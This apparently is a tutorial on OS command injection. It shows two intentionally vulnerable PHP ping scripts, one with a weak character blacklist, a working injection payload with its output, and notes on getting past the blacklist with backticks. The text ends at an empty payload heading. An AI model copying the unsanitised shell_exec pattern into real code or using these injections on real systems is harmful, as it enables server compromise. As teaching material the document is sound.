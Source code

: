 Command injection occurs when application gets and input from outside and execute that as system command.

# Vulnerable Code 1
This simple code will get a POST request with ip parameter and execute it with "shell_exec" command. Normally it intended to ping to an ip adress. 

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

## Abusing

If we end command with ";" character (on linux) and add another system command, both of them will be executed and result will be reflected to user.

## Payload

```bash
127.0.0.1; whoami; id
```

## Result

```bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.042 ms
--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.033/0.042/0.046/0.000 ms
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Vulnerable Code 2
This simple code will get a POST request with ip parameter and execute it with "shell_exec" command. Normally it intended to ping to an ip adress. There is also a blacklisting for some special characters :
"&&"
";"

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

## Abusing


On Code 1, we execute and start a new command with ";" , this time we will use "\`" for executing system commands (on linux) as soon as bash script sees the command between this character, it will execute it.

## Payload



